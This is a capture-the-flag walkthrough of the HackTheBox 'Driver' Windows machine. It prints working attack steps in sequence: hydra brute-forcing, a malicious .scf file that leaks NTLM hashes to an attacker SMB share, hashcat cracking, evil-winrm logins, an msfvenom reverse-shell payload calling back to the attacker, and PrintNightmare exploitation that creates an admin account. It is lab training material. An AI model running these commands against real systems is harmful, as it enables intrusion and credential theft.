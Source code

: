 # Hackthebox Driver

- Windows

![Driver](../.res/HTB-Driver.png)

- [Box on HTB](https://app.hackthebox.com/machines/387)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T5 -sC -sV -O -p- 10.10.11.106    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-30 19:37 EDT
Nmap scan report for 10.10.11.106
Host is up (0.026s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%), Microsoft Windows 10 1511 - 1607 (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 10 1607 (85%), Microsoft Windows 10 1511 (85%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-05-01T06:46:14
|_  start_date: 2022-05-01T06:42:07
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 7h07m35s, deviation: 0s, median: 7h07m34s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.54 seconds
```

## Port 80

### Inspecting with burp

The response header when trying to authenticate gives this (we can also see it in the nmap scan):
```
WWW-Authenticate: Basic realm="MFP Firmware Update Center. Please enter password for admin"
```
So we get username, we can try to bruteforce with hydra `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.11.106 http-get`
```
┌──(root💀kali)-[~]
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.11.106 http-get                                                                                                                                                           255 ⨯
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-30 19:55:19
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.11.106:80/
[STATUS] 6124.00 tries/min, 6124 tries in 00:01h, 14338275 to do in 39:02h, 16 active
[STATUS] 6045.00 tries/min, 18135 tries in 00:03h, 14326264 to do in 39:30h, 16 active
[80][http-get] host: 10.10.11.106   login: admin   password: admin
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-30 19:58:36
```
- So we have admin:admin credentials

There is a file upload functionality and it says it will go in the share. It bugged me for a while and then I remember the URL File attack
So I uploaded this file
```
[Shell]
Command=2
IconFile=\\10.10.14.2\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
- I named it with and @ at the begining for instance `@csbygb`
- And then we need to launch responder with smb server on obviously `responder -w --lm -v -I tun0`
- And we get hashes!  
![image](https://user-images.githubusercontent.com/96747355/166127479-62d92e82-0ce3-4bc5-ba8a-429e1b42359a.png)  
- Now we just have to crack one of them with hashcat
- We just need to copy a whole one like this `tony::DRIVER:a05acd47ab1ac310:B15097FF39CD452C8F8E53BDC33B7B37:0101000000000000DF515CFA2F5DD801D1688BA244C5025400000000020000000000000000000000`
- And then launch hashcat as follow `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`
- And we get the password `liltony`  
![image](https://user-images.githubusercontent.com/96747355/166127617-791920c3-cccd-4c58-b619-ff2e1515cea7.png)  
- Let's see what shares we have
```
┌──(root💀kali)-[~/Documents/hackthebox/driver]
└─# smbclient -L //10.10.11.106 -U 'tony'                                                                                                                                                                                                1 ⨯
Enter WORKGROUP\tony's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.106 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```
- Let's use cracmapexec to see how we could use the creds  
![image](https://user-images.githubusercontent.com/96747355/166128322-f37c77a4-be30-4be1-8291-568e5243a846.png)  
- Let's get a shell with evil-winrm `evil-winrm -i 10.10.11.106 -u tony -p liltony`
- It works! Let's grab our user flag in tony's desktop!

## Privesc

- Let's get winpeas and execute it in our target
- In our kali `wget https://github.com/carlospolop/PEASS-ng/releases/download/20220424/winPEASx64.exe`
- Now we just have to upload it in our target with evilwinrm it really easy we just need to type `upload winPEASx64.exe`
- And we launch it `.\winPEASx64.exe`
- Winpeas shows that there is a powershell history file  
![image](https://user-images.githubusercontent.com/96747355/166128680-3edae579-a4c4-49c1-a595-07f5e3770547.png)  
- If we google the specific driver we have a privesc vuln
- Let's get a shell with msfconsole so that we can privesc using a metasploit module
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe -o reverse2.exe`
- in our evvilwinrm shell `upload reverse.exe`
- I got annoyed with this exploit because I could not make it work
- I decided to use [printnightmare](../windows/printNightmare.md) instead
  - `wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1`
  - From evil winrm `upload CVE-2021-1675.ps1`
  - `Import-Module .\CVE-2021-1675.ps1`
  - `Get-Command Invoke-Nightmare`
  - `Invoke-Nightmare -NewUser "csbygb" -NewPassword "csbygb123!"`
  - Finally if we net user we see we are in the admin group `net user csbygb`
  - Now we just need to use evil-winrm with our new user `evil-winrm -i 10.10.11.106 -u csbygb -p csbygb123!`
  - And we can grab the admin flag 
  - `cd C:\Users\Administrator\Desktop`
  - `type root.txt`
